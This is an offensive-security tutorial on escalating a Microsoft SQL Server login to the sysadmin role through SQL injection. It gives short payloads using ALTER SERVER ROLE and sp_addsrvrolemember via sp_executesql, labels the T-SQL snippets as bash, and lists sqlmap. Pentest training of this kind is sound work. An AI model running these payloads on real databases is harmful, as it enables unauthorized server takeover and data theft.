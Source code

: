 ```yaml
---
title: 'MSSQL Make User DBA: Elevate Database Privileges'
description: Learn to escalate privileges to DBA using SQL injection techniques on
  MSSQL, gaining full server control.
keywords:
- MSSQL
- DBA
- Privilege Escalation
- SQL Injection
- sysadmin role
- sp_addsrvrolemember
- ALTER SERVER ROLE
---
```


# MSSQL Make User DBA

## Context

In this article, you will learn how to escalate privileges to Database Administrator (DBA) on a Microsoft SQL Server by exploiting SQL injection vulnerabilities. This technique is crucial for offensive security professionals looking to gain full control over databases. The guide assumes you have intermediate knowledge of database privileges, role management, and SQL Server security concepts.

## Theory

### Role Assignment in MSSQL

Roles in Microsoft SQL Server define a collection of permissions that can be granted to users. A key role is the Database Administrator (DBA), which has unrestricted access to manage the database server. Understanding how roles are assigned and managed is pivotal when attempting privilege escalation.

### ALTER SERVER ROLE Command

The `ALTER SERVER ROLE` command is used to modify server-level roles in MSSQL. Attackers can inject SQL to alter server roles, escalating their privileges by adding users to powerful roles such as `sysadmin`.

### sp_addsrvrolemember Procedure

The `sp_addsrvrolemember` stored procedure allows an administrator to add a login to a fixed server role. By leveraging SQL injection, attackers can execute this procedure to include their user accounts in privileged roles, facilitating a comprehensive compromise of the database.

### Security Implications of sysadmin Role

The `sysadmin` role in SQL Server grants unrestricted access to all database server resources. This level of access implies complete control over the server, so it is imperative that only trusted users maintain this level of privilege. Unauthorized escalation to sysadmin can result in data breaches and system compromise.

## Practice

### Privilege Escalation via ALTER SERVER ROLE

By injecting malicious SQL payloads, it is possible to escalate user privileges to `sysadmin` using the `ALTER SERVER ROLE` command.

- Begin by crafting a SQL injection payload to alter the server role:
    ```bash
    SELECT 'ALTER SERVER ROLE sysadmin ADD MEMBER <username>';
    ```
    Replace `<username>` with the target username you wish to escalate.

- Execute the crafted payload to escalate privileges:
    ```bash
    EXEC sp_executesql N'ALTER SERVER ROLE sysadmin ADD MEMBER <username>';
    ```
    If successful, the user will be given sysadmin privileges.

### Privilege Escalation via sp_addsrvrolemember

Escalating privileges through the `sp_addsrvrolemember` stored procedure is another effective technique. This approach involves adding a user to the `sysadmin` role.

- Create the SQL injection payload to add a user to `sysadmin`:
    ```bash
    SELECT 'EXEC sp_addsrvrolemember ''<username>'', ''sysadmin''';
    ```
    Replace `<username>` with the specific user you want to promote.

- Execute the injection payload:
    ```bash
    EXEC sp_executesql N'EXEC sp_addsrvrolemember ''<username>'', ''sysadmin''';
    ```
    Upon execution, the target user is added to the `sysadmin` role, granting them full control.

## Tools

- **sqlmap**
- **MSSQL Management Studio**

By following these techniques, an attacker can escalate their privileges to sysadmin on a vulnerable Microsoft SQL Server, gaining significant control over the database environment. Always ensure you conduct these activities in a controlled and authorized setting.